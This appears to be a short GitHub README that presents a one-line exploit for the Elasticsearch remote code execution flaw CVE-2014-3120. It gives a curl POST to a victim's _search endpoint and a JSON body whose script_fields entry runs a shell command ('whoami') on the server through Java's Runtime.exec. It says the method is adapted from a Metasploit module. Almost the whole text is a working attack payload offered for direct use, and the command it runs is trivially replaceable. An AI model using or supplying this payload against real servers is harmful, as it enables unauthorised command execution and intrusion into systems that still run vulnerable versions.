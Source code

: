 # Exploit for Elastic Search
## Version 1.1.1, 
CVE ID is 2014-3120 https://www.cvedetails.com/cve/CVE-2014-3120/

The vulnerability allows the attacker to execute arbitrary java commands with the privileges of the service. 

Idea is a dirty one liner adapted from the metasploit module, when metasploit isnt available but standard HTTP POST is allowed.

```
curl $VICTIM:PORT/_search?pretty -X POST --data @elastic
```

where a file 'elastic' contains:

```
{
"size":1, 
"query":{
"filtered":{
"query":{
"match_all":{}
}}}, 
"script_fields":
{"msf_result":
{"script":"java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec('whoami').getInputStream())); reader.readLine()"
}}
}
```


